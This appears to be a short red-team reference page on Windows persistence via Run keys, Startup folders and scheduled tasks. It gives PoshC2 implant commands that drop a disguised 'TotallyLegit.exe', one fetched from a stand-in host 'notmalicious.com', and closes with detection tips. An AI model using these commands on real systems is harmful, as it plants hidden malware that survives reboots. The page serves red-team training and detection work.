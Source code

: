 # [Redundant access](https://attack.mitre.org/techniques/T1133/)

## Folder Locations: 
* HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
* HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
* C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
* C:\Users[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

## Exploit syntax:
* SCHTASKS /CREATE /SC DAILY /TN "MyTasks\Notepad task" /TR "Path to the executable you want to run" /ST 11:00

* Reference [Job Scheduling](/Poshc2/instructions/Job_Scheduling.md) for information on redundant access within scheduled tasks

* Can upload a file directly from implant:

```powershell

upload-file -source '/var/persistence.exe' -destination 'C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\TotallyLegit.exe'

```

* Also possible to utilize a staged website to pull the malicious file from:

```powershell

web-upload-file -from 'http://notmalicious.com/persistence.exe' -to 'C:\\Users[Username]\\AppData\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\TotallyLegit.exe'

```

## Detection Technique:
* (Kibana): Use a string search to detect schtasks operating within the network. Then add process.command_line to the results column. This will allow for quick separation of uncommon scheduled tasks.

* Investigate downloads from suspicious websites, particularly exe files

* Investigate file creation in the default startup file locations
